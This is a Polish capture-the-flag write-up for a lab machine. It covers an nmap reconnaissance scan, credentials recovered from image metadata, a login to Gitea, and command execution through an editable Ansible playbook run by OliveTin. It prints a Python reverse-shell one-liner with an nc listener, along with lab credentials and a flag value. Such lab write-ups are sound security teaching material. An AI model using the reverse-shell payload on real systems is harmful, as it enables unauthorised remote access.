

# Cat Pictures II
IP=10.10.3.248

## Rekonesans
Przeprowadzamy wstępny skan za pomocą narzędzia nmap:

```
sudo nmap -p- 10.10.3.248
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-27 11:37 EDT
Nmap scan report for 10.10.3.248
Host is up (0.046s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
222/tcp  open  rsh-spx
1337/tcp open  waste
3000/tcp open  ppp
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 38.76 seconds
```

Przeprowadźmy bardziej szczegółowy skan:

```
sudo nmap -p 22,80,222,1337,3000,8080 -sV -sC 10.10.3.248
```

Otrzymujemy następujące wyniki:

```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-06-27 11:39 EDT
Nmap scan report for 10.10.3.248
Host is up (0.066s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 33:f0:03:36:26:36:8c:2f:88:95:2c:ac:c3:bc:64:65 (RSA)
|   256 4f:f3:b3:f2:6e:03:91:b2:7c:c0:53:d5:d4:03:88:46 (ECDSA)
|_  256 13:7c:47:8b:6f:f8:f4:6b:42:9a:f2:d5:3d:34:13:52 (ED25519)
80/tcp   open  http    nginx 1.4.6 (Ubuntu)
| http-robots.txt: 7 disallowed entries 
|_/data/ /dist/ /docs/ /php/ /plugins/ /src/ /uploads/
| http-git: 
|   10.10.3.248:80/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Remotes:
|       https://github.com/electerious/Lychee.git
|_    Project type: PHP application (guessed from .gitignore)
|_http-title: Lychee
|_http-server-header: nginx/1.4.6 (Ubuntu)
222/tcp  open  ssh     OpenSSH 9.0 (protocol 2.0)
| ssh-hostkey: 
|   256 be:cb:06:1f:33:0f:60:06:a0:5a:06:bf:06:53:33:c0 (ECDSA)
|_  256 9f:07:98:92:6e:fd:2c:2d:b0:93:fa:fe:e8:95:0c:37 (ED25519)
1337/tcp open  waste?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Accept-Ranges: bytes
|     Content-Length: 3858
|     Content-Type: text/html; charset=utf-8
|     Date: Thu, 27 Jun 2024 15:39:29 GMT
|     Last-Modified: Wed, 19 Oct 2022 15:30:49 GMT
|     <!DOCTYPE html>
|     <html>
|     <head>
|     <meta name="viewport" content="width=device-width, initial-scale=1.0">
|     <title>OliveTin</title>
|     <link rel = "stylesheet" type = "text/css" href = "style.css" />
|     <link rel = "shortcut icon" type = "image/png" href = "OliveTinLogo.png" />
|     <link rel = "apple-touch-icon" sizes="57x57" href="OliveTinLogo-57px.png" />
|     <link rel = "apple-touch-icon" sizes="120x120" href="OliveTinLogo-120px.png" />
|     <link rel = "apple-touch-icon" sizes="180x180" href="OliveTinLogo-180px.png" />
|     </head>
|     <body>
|     <main title = "main content">
|     <fieldset id = "section-switcher" title = "Sections">
|     <button id = "showActions">Actions</button>
|_    <button id = "showLogs">Logs</but
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, Help, RTSPRequest: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest: 
|     HTTP/1.0 200 OK
|     Cache-Control: no-store, no-transform
|     Content-Type: text/html; charset=UTF-8
|     Set-Cookie: i_like_gitea=7c44af4485a6bbc8; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=9w-xMaJCHlSu1VcQhk__ntR5PUU6MTcxOTUwMjc2OTQ2MDgyODg2NQ; Path=/; Expires=Fri, 28 Jun 2024 15:39:29 GMT; HttpOnly; SameSite=Lax
|     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Thu, 27 Jun 2024 15:39:29 GMT
|     <!DOCTYPE html>
|     <html lang="en-US" class="theme-">
|     <head>
|     <meta charset="utf-8">
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <title> Gitea: Git with a cup of tea</title>
|     <link rel="manifest" href="data:application/json;base64,eyJuYW1lIjoiR2l0ZWE6IEdpdCB3aXRoIGEgY3VwIG9mIHRlYSIsInNob3J0X25hbWUiOiJHaXRlYTogR2l0IHdpdGggYSBjdXAgb2YgdGVhIiwic3RhcnRfdXJsIjoiaHR0cDovL2xvY2FsaG9zdDozMDAwLyIsImljb25zIjpbeyJzcmMiOiJodHRwOi
|   HTTPOptions: 
|     HTTP/1.0 405 Method Not Allowed
|     Cache-Control: no-store, no-transform
|     Set-Cookie: i_like_gitea=fcb1e2b12619731f; Path=/; HttpOnly; SameSite=Lax
|     Set-Cookie: _csrf=2s4mwvnnjKAvZp-pkgmdDNBViJ06MTcxOTUwMjc3NDc5NjM4OTYxNQ; Path=/; Expires=Fri, 28 Jun 2024 15:39:34 GMT; HttpOnly; SameSite=Lax
|     Set-Cookie: macaron_flash=; Path=/; Max-Age=0; HttpOnly; SameSite=Lax
|     X-Frame-Options: SAMEORIGIN
|     Date: Thu, 27 Jun 2024 15:39:34 GMT
|_    Content-Length: 0
8080/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.9)
|_http-title: Welcome to nginx!
|_http-server-header: SimpleHTTP/0.6 Python/3.6.9
2 services unrecognized despite returning data. If you know the service/version, please submit the following fingerprints at https://nmap.org/cgi-bin/submit.cgi?new-service :
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 92.80 seconds
```
Porty 80, 1337 i 3000 są najciekawsze ze względu na potencjalne zagrożenia bezpieczeństwa.

## Skanowanie

### Port 80
Rozpoczynamy od sprawdzenia portu 80:


Jest to galeria zawierająca zdjęcia kotów. W źródle strony nie ma nic ciekawego, jednak w opisie jednego zdjęcia znajdujemy ukrytą notkę:


```
Description  note to self: strip metadata
```

Pobieramy zdjęcie i za pomocą narzędzia exiftool sprawdzamy metadane:

```
exiftool f5054e97620f168c7b5088c85ab1d6e4.jpg
```


Tytuł pobranego zdjęcia wskazuje na tajemniczy plik:

```
Title: :8080/764efa883dda1e11db47671c4a3bbd9e.txt
```

Przechodzimy do ukrytego pliku:


Znajdujemy dane do logowania, które wykorzystamy na porcie 3000:

```
user: samarium
password: TUmhyZ37CLZrhP
```

### Port 3000

Na porcie 3000 znajduje się aplikacja do hostowania kontroli wersji oprogramowania - Gitea:


Logujemy się do systemu zdobytymi danymi do logowania, w zakładce "Explore" widzimy jedno aktywne repozytorium ansible:


W pliku flag1.txt znajdujemy pierwszą flagę:


```
10d916eaea54bb5ebe36b59538146bb5
```

W repozytorium znajduje się plik playbook.yaml, który możemy edytować, co daje potencjalny wektor ataku:


### Port 1337

Na porcie 1337 znajduje się aplikacja, która umożliwia miedzy innymi wykonanie: backup-u, komendy ping oraz uruchomienie Ansible Playbook:


Wynik zakładki "Logs" po uruchomieniu Ansible Playbook:


Zmieniamy komendę w pliku playbook.yaml na "id" i ponownie uruchamiamy  Ansible Playbook:


Widzimy, że komenda "id" wykonała się na serwerze.


## Eksploitacja

Spróbujemy uzyskać dostęp do systemu poprzez reverse shell, edytując plik playbook.yaml za pomocą komendy:

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

Następnie nasłuchujemy połączeń za pomocą narzędzia netcat:

```
nc -lvnp [Port]
```
Zyskaliśmy dostęp do serwera:


W pliku flag2.txt znajdujemy drugą flagę:




